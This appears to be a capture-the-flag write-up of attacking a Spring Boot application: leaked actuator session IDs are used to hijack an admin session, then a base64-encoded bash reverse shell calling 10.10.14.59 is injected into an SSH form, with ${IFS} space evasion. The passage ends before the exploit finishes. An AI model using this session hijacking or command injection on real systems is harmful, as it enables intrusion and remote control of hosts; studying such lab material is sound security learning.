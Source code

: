 

Error page looks like Spring Boot.
I look up Spring Boot endpoints to see if there's any endpoint enabled.

we found the following endpoints, /executessh and /addhost in the /actuator/mappings and /actuator/session. 
/actuator/session shows us someone's session

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
2009DD9591A21581C1174F2E5FE0A172	"UNAUTHORIZED"
C1A6D76F24C4507346BE2B9C93AEF42C	"UNAUTHORIZED"
BD89D388C1156EC794B59AADEC369F99	"kanderson"
06379E06AC9D302E4C8269A20B50C986	"UNAUTHORIZED"
78030DBC852455916BED5A8C5A6D05DD	"UNAUTHORIZED"
7DA02EC01D1CC88BD83255B377C410EB	"UNAUTHORIZED"
090A6943402311CC802EEBCC3DD81038	"UNAUTHORIZED"
DA39596D4A7EB507146629B6E6575B70	"UNAUTHORIZED"
831039F943B2A0E29728CE3F80DE1C92	"UNAUTHORIZED"
AC5AF5AA92FA5ED69782B5B4696AE590	"UNAUTHORIZED"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Using cookie-editor extension, I'm going to change my JSESSIONID to *kanderson*'s, to access the /admin directory
There's a connection settings form which asks for *hostname* and *username* that might be be vulnerable to SSRF.
The form uses the endpoint **/executessh**

Entered **127.0.0.1** in hostname & **kanderson** in username.
Got *Host key verification failed.* error.

Let's create a bash reverse shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.59/1234 <&1'" | base64 -w 0
YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuNTkvMTIzNCA8JjEnCg==       
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Our shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo "YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuNTkvMTIzNCA8JjEnCg==" | base64 -d | bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Going to adjust the shell
First remove the spaces and replace them with **${IFS%??}** and add **;** to the start and end of the shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
;echo${IFS%??}"YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuNTkvMTIzNCA8JjEnCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Then convert the shell to URL encode. *(Using burpe, highlight the shell and press Ctrl+U)*
